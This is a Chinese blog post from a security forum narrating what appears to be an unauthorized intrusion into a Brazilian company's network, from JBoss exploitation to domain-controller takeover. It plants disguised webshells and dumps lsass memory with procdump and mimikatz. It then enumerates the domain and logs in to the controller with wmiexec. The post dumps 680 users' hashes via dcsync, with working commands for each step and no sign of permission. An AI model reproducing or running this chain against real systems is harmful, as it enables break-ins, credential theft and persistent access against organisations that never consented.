


# 从外围打点到内网渗透拿下域控 - 先知社区

从外围打点到内网渗透拿下域控

- - -

## 写在最前

**先知技术社区独家发表本文，如需要转载，请先联系先知技术社区或本人授权，未经授权请勿转载。**

## 0x00 前言

小弟不才，学了点内网知识就想练练手，社工一个fofa会员就跑了一手jboss的站，跑完之后无聊的时候就拿拿shell，看看有没有域环境熟悉下dos命令。

这不，看到一个看起来比较好的站，就决定看一看他到底是何方神圣。

## 0x01 外围打点

Jboss界面都不说了哈老铁们，进去看了一下jmx console直接秒进，真好。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422113717-08fb9532-a31c-1.png)

不过不急，war远程部署虽然可以用，jexboss集成工具岂不是更香？

拿出jboss扫描神器jexboss扫描一手，不扫不知道一扫吓一跳，有3个漏洞都可以利用，不得不说管理员还是很疏忽大意的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422113930-58741a8a-a31c-1.png)

直接选了个jmx-console，直接省去了手动部署的麻烦，给我弹了个shell回来，一发whoami，system权限，是真不错，准备ipconfig看一发是否有双网卡却碰了壁，不知道这是他禁了这个命令还是我连接不好的原因。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114021-7734618c-a31c-1.png)

因为jexboss拿的终究是交互式shell，不稳定随时有掉线可能，所以我决定先冰蝎上个线，至少不能让这条system权限的鱼就这样跑掉。dir命令看一下它jboss的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114052-89a06dc0-a31c-1.png)

echo冰蝎写个马进去，成功连接，至此打点成功，这里后来查看了目录下的文件，有一个名叫jboss的xml文件，我为了隐蔽起见，将名字改成了jboss.jsp

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114116-978153be-a31c-1.png)

## 0x02 本机信息搜集

拿到webshell后先维权往其他几个目录也放几个webshell，防止被管理员删除修复

然后依托当前机器收集尽可能多的信息，迅速了解目标的内网大致网络结构和机器软件环境，为下一步继续深入做好准备

```plain
ipconfig /all &&netstat -ano
&&arp -a查看当前机器处于哪个环境哪个网段

wmic os get
caption,csdversion,osarchitecture,version 抓明文之前了解目标系统版本
有些默认是抓不到明文的

wmic product get name,version 查看安装软件列表

whoami /user &&quer user 

tasklist /v && net start 

systeminfo
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114152-ad72ec00-a31c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114206-b56dfe90-a31c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114219-bd0f95be-a31c-1.png)

可以看到我们这里拿的是一台2008r2的主机，虽然没有双网卡，但是在域内

然后在本机里不断的寻找有用的消息

找到一个pdf里面有一个网站

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114243-cb755e2c-a31c-1.png)

尝试访问，拒绝的原因是这个网站只允许内部网络访问，看来安全性还是挺高的

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114255-d300a6ce-a31c-1.png)

拿着这个名字去搜索得到这是一家位于巴西圣保罗的公司

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114309-db1c040c-a31c-1.png)

因为系统里的文件太多且太杂，可能有些有用的文件并没有让我发现找到，但是在一份账单里面得到了他官网的地址xxxx.com.br，不过咱也不是巴西人，也看不懂葡萄牙语是吧，那只能英语翻译走一手了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114323-e3b23398-a31c-1.png)

粗略看了一下地址也是在圣保罗，那应该十有八九这个就是他的主站，位置就在巴西的圣保罗

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114337-eba304f6-a31c-1.png)

用在线子域名扫描发现很多子域名都解析在了我拿到shell这个ip地址（186.xxx.xxx.xxx）上，当时就有一种这个域并不是很小的感觉

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114356-f71c3276-a31c-1.png)

信息搜集得差不多了，我决定先把他密码抓出来，用抓取dmp回本地离线mimikatz解密的方法

先tasklist /svc查看一下杀软情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114411-ffe0ae32-a31c-1.png)

扫描的话是没有杀软的，那么就不用做免杀了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114424-081148a0-a31d-1.png)

用procdump导出

```plain
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114449-16f0922c-a31d-1.png)

利用windows自带的压缩文件下载回本地

```plain
makecab c:\jboss\bin\1.dmp  1.zip
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)

看到压缩后的大小还是小很多的，下载回来的速度也会更快

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)

mimikatz离线读取得到域管Administrator的密码

```plain
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)

## 0x03 域内信息收集

net view /domain 查看域

net view /domain:域名称 查看域内用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114624-4f4b378a-a31d-1.png)

net group “domain computers” /domain 查询所有域成员计算机列表

我这张截图还只是C开头的主机并且还没有结束，粗略估计了一下这一个大域里面至少有4.500台主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114652-6046d364-a31d-1.png)

net accounts /domain获取域密码信息

看了一下最多180天密码过期

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114712-6c34a07a-a31d-1.png)

nltest /domain\_trusts 获取域信任信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20210506114610-98890408-ae1d-1.jpg)

net user /domain 向AD域用户进行查询

向AD查询的用户就更多了，估计远不止4.500台，是一个非常庞大的域，因为几乎他三分之二的子域名都解析到了我拿到这个shell的ip上

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114812-8f993616-a31d-1.png)

wmic user account get /all获取域内用户详细信息

将详细信息导出到excel，方便信息归类

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114829-998fface-a31d-1.png)

dsquery user 查看存在的用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114841-a0e937cc-a31d-1.png)

net group “domain admins” /domain 查询域管理员用户

域管用户大概10多个

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422114943-c62ac492-a31d-1.png)

net group “Domain Controllers” /domain 查询域控

得到DC1的ip为192.168.21.3，DC2的ip为192.168.21.108，且都在我拿到权限的这个机器的域内

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115022-dd2ac61a-a31d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115031-e24710b8-a31d-1.png)

这里既然找到了域控，先看一下能不能利用gpp组策略

```plain
dir \\主机名\NETLOGON

dir \\主机名\SYSVOL
```

这里看了一下两台主机虽然都有vbs和bat，但是bat里并没有有用信息可以利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115044-e9fef820-a31d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210506114629-a458322c-ae1d-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115104-f5f4b746-a31d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115112-fb3f0ce2-a31d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115124-020b3b40-a31e-1.png)

这里我尝试把ntds.dit导出进行查看，但是拒绝访问，是因为ntds并不在默认目录，我试着用命令进行查找也失败，遂放弃

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115151-11f188f2-a31e-1.png)

## 0x04 获取域内spn记录

摸清域内敏感机器资产的分布，方便之后突破。可以拿着这些获取到的机器名，来快速完整探测当前域内的所有存活主机，通过net view还是比较不准的，开启防火墙也是探测不到的

```plain
setspn -T xxx.com -Q */* >spn.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115215-2053cd1a-a31e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115224-26149d42-a31e-1.png)

接着对拉回来的spn文件进行处理，获取spn记录前面的主机名字

```plain
grep "CN=" spn.txt | awk -F "," {'print $1'} | awk -F "=" {'print $2'} > host.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115255-3821869e-a31e-1.png)

通过SPN我们可以获取到域内的存活主机何一些主机的具体作用。可以通过主机的名字来获取到这个主机提供什么服务

除了SPN收集域内的信息的话，还可以通过bloodHound来获取域内的一些信息。接着快速抓取当前域内的所有用户，组，会话，数据，上传exe文件上去然后再把数据给下载回来

## 0x05 内网存活机器及资产搜集

本来这里是准备用venom将msf带进内网打的，但是不知道为什么虽然没有杀软，就是传不上去，把几个内网穿透的软件都试完了，就是上传不上去

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115327-4b4cc0e4-a31e-1.png)

一开始我以为是我这边的问题，所有文件都传不上去，但是我试了一张png就能够上传上去，那么肯定是把我上传的文件直接给拦截了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115339-52cb31ca-a31e-1.png)

我想这既然不能上传，能不能下载呢

先在本地测试一下是能够下载的

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115348-57f05a72-a31e-1.png)

但是一换到被攻击机上就下载不下来了，真是离谱

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115432-726b97cc-a31e-1.png)

一筹莫展之时我想起来一个大杀器我从头到尾都没有使用过，那就是cs多人运动

我想它是出网的而且又没有杀软，虽然文件下载不知道是什么鬼问题，但是应该是能够上的吧

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115452-7e0c3a0a-a31e-1.png)

真好，又出现了一丝生机，上号cs多人运动

因为之前已经把本机及域内信息搜集得差不多了，就只扫描了一个网段

C段里面大概100多台主机，但我估计并不只这么多，因为有些开防火墙我用arp扫描是探测不到的

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115507-86ee8c22-a31e-1.png)

不知道是不是我个人习惯的原因，我觉得cs在信息搜集方面确实能起到很多作用，但是真要进内网打还是看msf

所以我还是执念上msf去打，新增一个msf监听器把cs的对话派生给msf

新建一个192.168.21.0段的路由表

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115524-913dcdfa-a31e-1.png)

这里我一开始是要扫描的ip放到了一个txt里，想直接对txt进行扫描，但是不知道是我操作错误的原因还是啥问题，不能够批量扫，那就只能手动去搞了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115540-9a92ee4e-a31e-1.png)

这里搞了一段时间，域内扫完整理出来如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115615-af908b62-a31e-1.png)

## 0x06 拿下DC获取hash

对内网的主机进行MS17-010漏洞探测，域内机器扫出来9台，本来这个地方可以用msf获取meterpreter后用Kiwi读取密码进行整理的，但是我觉得这个C段太大了，我就没有一台一台的获取session

我想的是如果我拿到了DC，直接就可以把整个域内成员hash导出来，就节省了大量时间

一般拿到DC都会象征性的登录远程桌面作个纪念，但是这个地方我没有登录截图，原因我下面会解释

这里我直接用cs上传wmiexec.py连接DC

```plain
python3 ./wmiexec.py sxxxx/Administrator:密码@192.168.21.3
```

用mimikatz导出hash

```plain
lsadump::dcsync /domain:xxx /all /csv command
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115707-cebe49d4-a31e-1.png)

这个地方我截图导出来的hash其实是很少一部分，我将导出来的hash放入excel，这里我为了方便看我在每个hash中间都加了一个空行

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115816-f7d764f4-a31e-1.png)

这是结束时候的截图，因为我加了空格，计算的话一共导出了680个用户的hash，也就是说这些用户的hash还不只是这个C段主机的hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115849-0b99119a-a31f-1.png)

也就是说可能我拿的这个DC所在的这个域还有可能是个子域，这就很恐怖了，所以这里我没有打草惊蛇去登录它的远程桌面，这里我想的是用cs联动bloodhound进行更详细的分析，但奈何现在bloodhound还用得不太熟，就此作罢

## 0x07 后记

我想说的还有一个点是在内网渗透的过程中思路一定要清晰，要做好信息的整合，当你收集到一些有用的信息时就要及时的整理好，不然到后面再去找就会很麻烦，比如hash、spn、wmic收集到的域内用户详细信息，都要做好及时的整理

[](https://xzfile.aliyuncs.com/media/upload/picture/20210422115937-27db89be-a31f-1.png)

当时在扫子域名的时候我就预感到这个域不会是很小，但是也没有想到这个域有这么大，我拿下的可能是主域下一个很小的域，因为这个域是在是太庞大了，需要耗费巨大的精力和时间去研究，而且现在有些地方知识也储备得不是很足，如果有师傅想继续往上研究的话可以联系一下小弟，其实我也想看看这个域究竟会有多大，未完待续

[](https://xzfile.aliyuncs.com/media/upload/picture/20220307152549-cff96bde-9de7-1.png)
